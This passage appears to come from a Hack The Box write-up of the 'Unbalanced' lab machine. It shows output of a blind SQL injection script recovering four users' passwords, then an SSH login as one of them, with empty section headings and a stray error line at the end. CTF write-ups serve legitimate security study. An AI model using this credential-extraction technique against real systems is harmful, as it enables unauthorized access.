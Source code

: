 For some reason sending the username in the username field caused my SQL injection to not work, however sending it as SQL parameter in the password field worked...strange, but I got it to work

```text
┌──(zweilos㉿kali)-[~]
└─$ python3 pass_brute.py

Getting password for user: rita
[+] Enumerating password: password01!''''''''''''
Use credentials: rita:password01!

Getting password for user: jim
[+] Enumerating password: stairwaytoheaven'''''''
Use credentials: jim:stairwaytoheaven

Getting password for user: bryan
[+] Enumerating password: ireallyl0vebubblegum!!!
Use credentials: bryan:ireallyl0vebubblegum!!!

Getting password for user: sarah
[+] Enumerating password: sarah4evah'''''''''''''
Use credentials: sarah:sarah4evah
```

For some reason I had to strip off extra `'` characters from the passwords. I suppose the server was returning the same message for a '\`' as it was for a valid character. I could have done a check and removed tests for a single quote, but if the password contained that character I would have missed it, so I left them on and stripped them at the end.

## Initial Foothold

## Road to User

### Further enumeration

### Finding user creds

```text
┌──(zweilos㉿kali)-[~/htb/unbalanced/decrypted]
└─$ ssh bryan@10.10.10.200                                                                         2 ⨯
The authenticity of host '10.10.10.200 (10.10.10.200)' can't be established.
ECDSA key fingerprint is SHA256:aiHhPmnhyt434Qvr9CpJRZOmU7m1R1LI29c11na1obY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.200' (ECDSA) to the list of known hosts.
bryan@10.10.10.200's password: 
Linux unbalanced 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun 17 14:16:06 2020 from 10.10.10.4
bryan@unbalanced:~$ id && hostname
uid=1000(bryan) gid=1000(bryan) groups=1000(bryan)
unbalanced
```


[ERROR]: Unable to parse results from <i>queryads.php</i>: <code>Unhandled error message (<code>Invalid domain!</code>)</code>